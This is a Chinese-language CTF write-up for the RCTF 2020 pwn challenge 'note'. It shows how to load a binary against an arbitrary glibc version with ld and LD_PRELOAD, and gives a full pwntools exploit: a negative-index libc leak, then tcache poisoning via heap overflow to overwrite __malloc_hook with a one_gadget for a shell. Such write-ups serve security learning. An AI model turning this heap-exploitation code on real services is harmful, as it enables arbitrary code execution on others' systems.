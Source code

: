 ```yaml
---
title: RCTF 2020 Pwn note
date: 2020-06-01 00:00:00
categories:
- CTF/Pwn
tags:  TcachePoisoning 堆溢出 任意libc版本
---
```


> 题目漏洞点为查看内容的索引没有过滤负数以及堆溢出。利用方法为首先通过负数索引泄露libc，然后构造堆溢出到tcache的fd为`__malloc_hook`的地址，再触发两次对应大小的malloc即可实现任意地址写，写入`one_gadget`即可。另外题目环境为`libc2.29`，本文还使用了`ld-2.29.so`直接加载题目的方式，介绍了在任意版本的ubuntu下做任意libc版本Pwn题的方法。

题目附件：[note_attachment.zip](https://xuanxuanblingbling.github.io/assets/attachment/note_attachment.zip)

## 任意libc版本运行

首先查看libc的版本，在无法直接运行libc时，可以直接看libc的字符串：

```bash
➜  strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.29-0ubuntu2) stable release version 2.29.
Compiled by GNU CC version 8.3.0.
```

本题原始附件中是没有给出`ld-2.29.so`的，在这种情景下，我们是无法在没有完整安装`libc2.29`的环境下加载题目中的`libc.so.6`的，我们可以直接运行一下：

```bash
➜  uname -a
Linux ubuntu 4.15.0-99-generic #100~16.04.1-Ubuntu SMP Wed Apr 22 23:56:30 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
➜  ./libc.so.6
[1]    101643 segmentation fault (core dumped)  ./libc.so.6
```

但是如果运行`ld-2.29.so`并且将`libc.so.6`作为参数即可运行：

```bash
➜  ./ld-2.29.so libc.so.6 
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu11) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.4.0 20160609.
Available extensions:
	crypt add-on version 2.1 by Michael Glad and others
	GNU Libidn by Simon Josefsson
	Native POSIX Threads Library by Ulrich Drepper et al
	BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

背后的原因是ld和libc要配套，而且可以通过`ldd`工具查看二者背后依赖的库：

```bash
➜  ldd ./libc.so.6
	/lib64/ld-linux-x86-64.so.2 (0x00007f02902f9000)
	linux-vdso.so.1 =>  (0x00007fffa430d000)
➜  ldd ./ld-2.29.so 
	statically linked
```

可见，libc也是依赖ld的，而ld是一个静态链接的库，`linux-vdso.so.1`是linux64位下都有的，故按道理只要在任意64位linux发行版中，只要系统调用满足，都可以使用如上的方式加载任意版本的libc，那么如何加载程序呢？和我这篇文章：[IDA动态调试：arm架构的IoT设备上运行armlinux_server错误的一种解决办法](https://xuanxuanblingbling.github.io/ctf/tools/2020/04/19/armida/)，给出的方法相同，通过运行ld，目标程序当做ld的参数，并通过环境变量`LD_PRELOAD`设置libc即可：

```bash
➜  LD_PRELOAD=./libc.so.6 ./ld-2.29.so ./note 
=========Welcome to NOTE shop!=========
1.New a note
2.Sell a note
3.Show a note
4.Edit a note
5.Exit
======================================
Choice: 
```

可以另开一个shell检查这个进程的内存映射：`/proc/pid/maps`，观察的确是加载的当前目录的libc以及ld，那在pwntools里怎么使用呢？一个道理：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./note")
libc   = ELF("./x64/2.29/libc-2.29.so")
ld     = ELF("./x64/2.29/ld-2.29.so")
io     = process(argv=[ld.path,myelf.path],env={"LD_PRELOAD" : libc.path})
gdb.attach(io,"vmmap")
io.interactive()
```

另外在天舒的提示下知道了可以在这里获取各个版本的libc以及ld：[glibc package in Ubuntu](https://launchpad.net/ubuntu/+source/glibc/)，进入每个版本的libc右侧的amd64选项，然后即可看到相应的deb包，下载并在ubuntu中使用`dpkg -X xxx.deb ./dir/`解压，即可在相应目录下找到对应版本的libc以及ld。

这里我已经做好了收集工作：[ubuntu不同版本的libc以及ld整理](https://github.com/xuanxuanblingbling/ubuntu_libc_ld)

## 解题

- 通过`-5`索引，在data段正好能访问到本段地址，便可以把数据段中的内容打印出来，包含着libc相关
- 还可以通过`-5`索引，拿到data段的内存写，故可以任意修改money
- 构造好tcache，通过隐藏功能7，溢出到tcache的fd
- 由于calloc不用tcache，所以需要触发malloc
- 程序中只有隐藏功能6是malloc，而且大小是0x50，故之前构造的tcache的大小也需要是0x50
- 隐藏功能6会检查一个全局变量，不过使用`-5`仍然能覆盖到
- 修改金钱，调用两次malloc，写入one_gadget，然后再加一次钱，最后调一次malloc即可触发getshell

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./note")
libc   = ELF("./libc.so.6")
ld     = ELF("./ld-2.29.so")
io     = process(argv=[ld.path,myelf.path],env={"LD_PRELOAD" : libc.path})
#io     = remote("124.156.135.103",6004)

sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
sa          = lambda delim,data           :  (io.sendafter(delim, data))
new         = lambda index,size           :  (sla("Choice: ","1"),sla("Index: ",str(index)),sla("Size: ",str(size)))
sell        = lambda index                :  (sla("Choice: ","2"),sla("Index: ",str(index)))
show        = lambda index                :  (sla("Choice: ","3"),sla("Index: ",str(index)))
edit        = lambda index,message        :  (sla("Choice: ","4"),sla("Index: ",str(index)),sla("Message: \n",message))
name        = lambda name                 :  (sla("Choice: ","6"),sla("name: \n",name))
overedit    = lambda index,message        :  (sla("Choice: ","7"),sla("Index: ",str(index)),sa("Message: \n",message))

# leak libc & bss
show(-5)
data_addr     = u64(io.recv(8)) ; io.recv(16)
libc.address  = u64(io.recv(8)) - 0x1e5760
one_gadget    = libc.address+0xe237f
show(-5); bss = io.recv(0x70)

# use -5 to set money and over the one time chance
setmoney        = lambda money             :  (edit(-5,p64(data_addr)+p64(money)))
overflow        = lambda idx,data          :  (edit(-5,p64(data_addr)+p64(0x996)+p32(1)),overedit(idx,data))

# set money to allow new and name function
New             = lambda idx,size          :  (setmoney(0x99600),new(idx,size))
Name            = lambda data              :  (setmoney(0x9960000),name(data),edit(-5,bss))

# use tcache poisoning to arbitrary address write
def aaw(addr,data):
    New(0,0x50);New(1,0x50);sell(1)             # put one chunk to tcache list
    overflow(0,"1"*0x58+p64(0x61)+p64(addr))    # overflow tcache fd to addr
    Name("a")                                   # use malloc to get addr
    Name(data)                                  # modify addr content to data

# modify __malloc_hook to onegadget and trigger it
aaw(libc.symbols['__malloc_hook'],p64(one_gadget))
setmoney(0x9960000);sla("Choice: ","6")
io.interactive()
```